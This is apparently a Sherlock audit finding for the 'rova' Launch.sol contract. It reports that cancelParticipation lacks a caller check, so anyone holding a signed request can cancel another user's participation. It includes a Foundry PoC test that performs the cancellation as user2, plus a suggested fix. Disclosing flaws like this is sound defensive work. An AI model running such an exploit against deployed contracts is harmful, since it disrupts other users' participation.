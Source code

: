 Kind Eggshell Shark

Medium

# Any user can can other user's participation

### Summary

The missing check for `userAddress` will lead to cancel other users' participation by anyone

### Root Cause

[link](https://github.com/sherlock-audit/2025-02-rova/blob/main/rova-contracts/src/Launch.sol#L430-L433)
in current implementation of `calcelParticipation` function, it does not verify if userAddress in request is same on info. So anyone can cal other user's partipation. And it sends the funds to `info.userAddress` so can't steal that funds directly.

### Internal Pre-conditions

1. signer needs to sign their request

### External Pre-conditions

none

### Attack Path

1. User calls `cancelParticipation` function with their request

### Impact

The users' participation can be canceled by any users.

### PoC

```solidity
// Based on Launch.CalcelParticipation.sol
// [...]
    function test_CancelParticipation() public {
        // Prepare cancel participation request
        CancelParticipationRequest memory cancelRequest = _createCancelParticipationRequest();
        bytes memory cancelSignature = _signRequest(abi.encode(cancelRequest));

        ParticipationInfo memory info = launch.getParticipationInfo(cancelRequest.launchParticipationId);
        assertEq(info.tokenAmount, 1000 * 10 ** 18);
        assertEq(info.currencyAmount, 1000 * 10 ** 18);
        uint256 initialUserTokenAmount = launch.getUserTokensByLaunchGroup(testLaunchGroupId, testUserId);
        uint256 startingBalance = currency.balanceOf(user1);

        vm.startPrank(user2);

        // Expect ParticipationCancelled event
        vm.expectEmit();
        emit ParticipationCancelled(
            cancelRequest.launchGroupId,
            cancelRequest.launchParticipationId,
            cancelRequest.userId,
            user2,
            info.currencyAmount,
            address(currency)
        );

        // Update participation
        launch.cancelParticipation(cancelRequest, cancelSignature);
        vm.stopPrank();

        // Verify update
        ParticipationInfo memory newInfo = launch.getParticipationInfo(cancelRequest.launchParticipationId);
        assertEq(newInfo.tokenAmount, 0);
        assertEq(newInfo.currencyAmount, 0);

        // Verify user balance
        assertEq(currency.balanceOf(user1), startingBalance + info.currencyAmount);

        // Verify user tokens
        uint256 userTokenAmount = launch.getUserTokensByLaunchGroup(testLaunchGroupId, testUserId);
        assertEq(userTokenAmount, initialUserTokenAmount - info.tokenAmount);

        // Verify user ID is no longer in the launch group
        assertEq(launch.getLaunchGroupParticipantUserIds(testLaunchGroupId).length, 0);
    }

// LaunchTestBase.t.sol
    function _createCancelParticipationRequest() internal view returns (CancelParticipationRequest memory) {
        return CancelParticipationRequest({
            chainId: block.chainid,
            launchId: testLaunchId,
            launchGroupId: testLaunchGroupId,
            launchParticipationId: testLaunchParticipationId,
            userId: testUserId,
            userAddress: user2, // change to user2
            requestExpiresAt: block.timestamp + 1 hours
        });
    }
```

### Mitigation

add a check for `info.userAddress == msg.sender`